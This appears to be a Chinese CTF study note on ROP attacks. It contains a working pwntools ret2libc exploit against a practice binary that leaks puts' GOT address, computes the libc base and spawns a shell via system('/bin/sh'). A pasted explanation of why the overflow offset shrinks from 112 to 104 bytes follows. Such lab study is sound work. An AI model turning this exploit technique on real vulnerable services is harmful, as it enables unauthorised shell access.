





# ROP介绍



# gadgets的寻找



# 绕过防御攻击

## 1、ret2text攻击



## 2、retsyscall攻击



## 3、ret2libc攻击



### (1)当程序中有system函数和/bin/sh字符串时，我们就将ret返回地址覆盖为system函数地址，32位payload编写，payload = p32（system_addr) + b”XXXX” + p32(/bin/sh_addr)

### (2)当程序中没有system函数和/bin/sh字符串，我们需要找到程序中的一个输出函数，并且使用他来输出一个函数的got表真实地址，减去偏移得到libc基地址，然后分别加上system函数和/bin/sh字符串的偏移量就可以得到他们的真实地址

```python
from pwn import *
p = process("./ret2libc2")
offset = 112
puts_plt = 0x8048460
main_addr = 0x8048618
puts_got = 0x804a018
p.recvuntil(b"Can you find it !?")
payload1 = b"A"*112 + p32(puts_plt) + p32(main_addr) + p32(puts_got)
p.sendline(payload1)
puts_true = u32(p.recv(4))
libc_addr = puts_true - 0x78140
system_addr = libc_addr + 0x50430
binsh_addr = libc_addr + 0x1c4de8
#gdb.attach(p)
#p.sendline(cyclic(200))
p.recvuntil(b"Can you find it !?")
payload2 = b"a"*104 + p32(system_addr) + b"XXXX" + p32(binsh_addr)
p.sendline(payload2)
p.interactive()
```

**注释掉的部分用来调试第二次执行main函数时求ret的偏移量**

## 为什么偏移量会有变化呢

这是一个非常经典且深入的问题！你的观察非常敏锐：**偏移量确实从 112 变成了 104**。

这并不是因为你做错了什么，而是因为 Linux 程序中栈对齐（Stack Alignment）机制导致的。

简单来说：**当你第二次进入 `main` 函数时，栈顶指针（ESP）的位置发生了变化，导致程序为了对齐内存，把栈帧（Stack Frame）“往下挪”了 8 个字节。**

下面我为你详细拆解这个过程：

### 1. 为什么偏移量变了？（数学推导）

在 32 位 Linux 程序中，`main` 函数的开头通常有这样几行汇编代码：

代码段

```
push ebp
mov ebp, esp
and esp, 0xfffffff0    ; <--- 罪魁祸首！栈对齐指令
sub esp, 0x...
```

**`and esp, 0xfffffff0`** 的作用是强行把 ESP 指针的最后一位变成 `0`（即 16 字节对齐）。这意味着，无论进入函数时 ESP 是多少，它都会被“向下取整”到最近的 16 的倍数。

让我们看看两次调用的区别：

#### **第一阶段：第一次进入 main**

- **状态**：由 `__libc_start_main` 调用。根据标准，`call` 指令执行前栈是对齐的，`call` 压入 4 字节返回地址。
- **ESP 尾数**：此时 ESP 通常以 **`0xC`** 结尾（例如 `0xffffd00c`）。
- **执行对齐**：
  1. `push ebp` (4字节) -> ESP 尾数变 **`0x8`**。
  2. `and esp, 0xfffffff0` -> ESP 尾数变 **`0x0`**。
  3. **被切掉的空间（Gap）**：`0x8 - 0x0 =` **8 字节**。
- **Result**：缓冲区起始位置（基于对齐后的 ESP）距离返回地址（基于未对齐的 EBP）之间，多出了这 **8 字节** 的空隙。所以你需要 `104 + 8 = 112` 字节的 Padding。

#### **第二阶段：从 puts 返回到 main**

- **状态**：你构造的 payload 是 `puts + main_addr + puts_got`。
  - `ret` (跳去 puts) 弹出了原来的返回地址（4字节）。
  - `puts` 执行完 `ret` (跳回 main) 又弹出了 `puts` 的返回地址（即 `main_addr`，4字节）。
  - **总共弹出了 8 字节**。
- **ESP 尾数**：相比第一次，ESP 增加了 8。`0xC + 0x8` = `0x14` -> 尾数 **`0x4`**。
- **执行对齐**：
  1. `push ebp` (4字节) -> ESP 尾数变 **`0x0`**。
  2. `and esp, 0xfffffff0` -> ESP 尾数还是 **`0x0`**。
  3. **被切掉的空间（Gap）**：`0x0 - 0x0 =` **0 字节**。
- **Result**：这次对齐没有产生空隙！那个 8 字节的 Gap 消失了。
- **结论**：所以你的 Padding 也就相应减少了 8 字节。 **112 - 8 = 104**。

------

### 2. 回答你的疑问：“不可以跟第一段一样使用 main 函数的 ret 吗？”

其实你**正在**使用 main 函数的 `ret`。

- 你第二次发送 Payload 时，目标依然是覆盖 `main` 函数栈帧里的返回地址。
- 之所以不能用 **112**，是因为**“起跑线”变了**。

想象你在填一个坑：

- 第一次，坑底距离坑口有 112 米深。
- 第二次，因为栈底板向上抬升了 8 米（对齐差异），坑现在只有 104 米深了。
- 如果你还填 112 个 'A'，多出来的 8 个 'A' 就会盖过返回地址，甚至破坏栈上的其他数据，导致程序崩溃。

### 3. 怎么解决？

这就是为什么我们在写 Exp 时，经常需要重新调试偏移量。

**通用解法：** 在 Pwn 的 `ret2libc` 攻击中，第二次溢出的偏移量通常会比第一次：

- **少 8 字节** (如果第一次调用消耗了 2 个栈位，如 `pop; ret` 或类似本例的情况)。
- 或者 **少 12 字节**。

## 解决方法

**gdb调试程序后，按c继续执行，程序崩溃然后使用cyclic -l 得到新偏移量**

